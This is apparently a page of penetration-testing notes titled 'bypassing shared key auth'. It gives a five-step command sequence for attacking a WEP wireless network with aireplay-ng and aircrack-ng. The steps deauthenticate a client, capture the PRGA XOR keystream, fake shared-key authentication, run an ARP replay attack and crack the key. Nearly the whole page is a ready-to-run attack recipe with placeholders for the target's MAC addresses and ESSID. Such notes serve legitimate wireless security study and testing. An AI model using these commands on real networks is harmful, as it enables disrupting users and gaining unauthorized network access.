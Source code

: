 # bypassing shared key auth

Deauthenticate the connected client to capture the PRGA XOR keystream:

```
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
```

Conduct a fake shared key authentication using the XOR keystream:

{% code overflow="wrap" %}
```

aireplay-ng -1 0 -e <ESSID> -y <keystreamfile> -a <AP MAC> -h <Your MAC> <interface>
```
{% endcode %}

Launch the ARP request replay attack:

```
aireplay-ng -3 -b <AP MAC> -h <Your MAC> <interface>
```

Deauthenticate the victim client again to force the generation of an ARP packet:

```
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
```

Once IVs are being generated by the AP, run Aircrack-ng against the capture:

```
aircrack-ng <capture>
```
